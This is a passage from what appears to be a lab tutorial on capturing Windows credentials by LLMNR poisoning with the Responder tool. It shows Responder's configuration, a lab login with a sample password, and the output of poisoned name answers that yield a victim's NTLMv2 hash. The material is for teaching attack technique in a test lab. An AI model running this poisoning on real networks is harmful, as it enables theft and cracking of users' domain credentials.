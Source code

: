 ``` bash
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eth1]
Responder IP               [192.168.56.103]
Challenge set              [1122334455667788]



[+] Listening for events...
```

Since we are on the same network, it is only a matter of time to get a
request from a machine in the subnet. But because our `Windows` machine
is doing nothing, we will receive nothing.

## Capturing credentials

Now let’s act like a normal user in our `Windows` machine. Log in as
`svctest` with the domain `sky.net` and password `Monkey.123`, then open
the start menu and there type `run`. In there we are going to look for a
name on the network, just type the following:

**searching names.**

``` bash
\\FLUIDATTACKS
```

There we will get an error accessing the share, but in our attacker
machine we will get the following:

**Responder output.**

``` bash
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
[SMB] NTLMv2-SSP Client   : 192.168.56.2
[SMB] NTLMv2-SSP Username : SKY\svctest
[SMB] NTLMv2-SSP Hash     : svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
[*] Skipping previously captured hash for SKY\svctest
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$
```
